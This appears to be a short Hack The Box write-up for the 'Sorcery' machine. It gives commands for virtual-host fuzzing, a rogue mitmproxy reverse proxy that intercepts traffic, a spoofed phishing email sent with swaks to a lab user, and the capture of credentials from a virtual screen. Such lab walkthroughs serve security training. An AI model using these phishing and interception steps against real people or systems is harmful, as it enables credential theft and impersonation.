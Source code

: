 ```yaml
---
layout: default
title: Sorcery
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

```
10.10.11.73 sorcery.htb git.sorcery.htb
10.10.14.40 pwn.sorcery.htb
```

Visit [https://sorcery.htb](https://sorcery.htb) and enumerate the repository:

```
git clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git
```

Enumerate virtual hosts with `ffuf`:

```
ffuf -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H "Host: FUZZ.sorcery.htb" -mc 200
```

This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

```
sudo mitmproxy --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443
```

Send a phishing email to capture credentials:

```
proxychains4 -f /etc/proxychains4.conf swaks --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data "Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"
```

Extract the captured credentials from the proxied session:

```
magick xwd:Xvfb_screen0 credentials.png
open credentials.png
```

*Screenshots omitted.*

